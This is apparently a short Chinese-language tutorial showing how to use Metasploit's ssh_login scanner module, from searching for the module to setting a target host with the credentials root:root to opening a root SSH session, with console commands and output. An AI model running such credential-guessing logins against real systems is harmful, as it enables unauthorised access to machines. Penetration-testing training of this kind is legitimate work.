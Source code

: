 

### ssh 会话

**搜索 ssh_login 模块**

```
msf6 > search ssh login type:auxiliary 

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/apache_karaf_command_execution  2016-02-09       normal  No     Apache Karaf Default Credentials Command Execution
   1  auxiliary/scanner/ssh/karaf_login                     .                normal  No     Apache Karaf Login Utility
   2  auxiliary/scanner/ssh/cerberus_sftp_enumusers         2014-05-27       normal  No     Cerberus FTP Server SFTP Username Enumeration
   3  auxiliary/scanner/http/cisco_firepower_login          .                normal  No     Cisco Firepower Management Console 6.0 Login
   4  auxiliary/scanner/ssh/ssh_login                       .                normal  No     SSH Login Check Scanner
   5  auxiliary/scanner/ssh/ssh_login_pubkey                .                normal  No     SSH Public Key Login Scanner


Interact with a module by name or index. For example info 5, use 5 or use auxiliary/scanner/ssh/ssh_login_pubkey

msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > 
```



**设置参数**

```
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/ssh/ssh_login) > set PASSWORD root
PASSWORD => root
```



**建立会话**

```
msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 10.10.10.10:22 - Starting bruteforce
[+] 10.10.10.10:22 - Success: 'root:root' 'uid=0(root) gid=0(root) groups=0(root) Linux xiaoshae 6.8.0-53-generic #55-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 17 15:37:52 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (10.10.10.10:39051 -> 10.10.10.10:22) at 2025-02-26 06:34:17 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
